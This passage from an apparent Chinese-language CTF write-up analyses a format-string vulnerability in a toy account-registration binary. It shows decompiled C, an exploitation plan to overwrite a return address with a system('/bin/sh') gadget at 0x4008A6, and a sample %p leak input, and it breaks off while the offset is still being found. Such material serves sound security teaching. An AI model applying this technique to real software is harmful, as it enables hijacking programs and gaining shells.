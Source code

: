 简单分析一下，就知道程序似乎主要实现了一个类似账户注册之类的功能，主要有修改查看功能，然后发现在查看功能中发现了格式化字符串漏洞

```C
int __usercall sub_400B07@<eax>(char format@<dil>, char formata, __int64 a3, char a4)
{
  write(0, "Welc0me to sangebaimao!\n", 0x1AuLL);
  printf(&formata, "Welc0me to sangebaimao!\n");
  return printf(&a4 + 4);
}
```

其输出的内容为 &a4 + 4。我们回溯一下，发现我们读入的 password 内容也是

```C
    v6 = read(0, (char *)&a4 + 4, 0x14uLL);
```

当然我们还可以发现 username 和 password 之间的距离为 20 个字节。

```C
  puts("Input your username(max lenth:20): ");
  fflush(stdout);
  v8 = read(0, &bufa, 0x14uLL);
  if ( v8 && v8 <= 0x14u )
  {
    puts("Input your password(max lenth:20): ");
    fflush(stdout);
    v6 = read(0, (char *)&a4 + 4, 0x14uLL);
    fflush(stdout);
    *(_QWORD *)buf = bufa;
    *(_QWORD *)(buf + 8) = a3;
    *(_QWORD *)(buf + 16) = a4;
```

好，这就差不多了。此外，也可以发现这个账号密码其实没啥配对不配对的。

#### 利用思路

我们最终的目的是希望可以获得系统的 shell，可以发现在给定的文件中，在 0x00000000004008A6 地址处有一个直接调用system('bin/sh') 的函数（关于这个的发现，一般都会现在程序大致看一下。）。那如果我们修改某个函数的返回地址为这个地址，那就相当于获得了 shell。

虽然存储返回地址的内存本身是动态变化的，但是其相对于 rbp 的地址并不会改变，所以我们可以使用相对地址来计算。利用思路如下

- 确定偏移
- 获取函数的 rbp 与返回地址
- 根据相对偏移获取存储返回地址的地址
- 将执行 system 函数调用的地址写入到存储返回地址的地址。

#### 确定偏移

首先，我们先来确定一下偏移。输入用户名 aaaaaaaa，密码随便输入，断点下在输出密码的那个 printf(&a4 + 4) 函数处

```text
Register Account first!
Input your username(max lenth:20): 
aaaaaaaa
Input your password(max lenth:20): 
%p%p%p%p%p%p%p%p%p%p
Register Success!!
1.Sh0w Account Infomation!
2.Ed1t Account Inf0mation!
3.QUit sangebaimao:(
>error options
1.Sh0w Account Infomation!
2.Ed1t Account Inf0mation!
3.QUit sangebaimao:(
>1
...
```
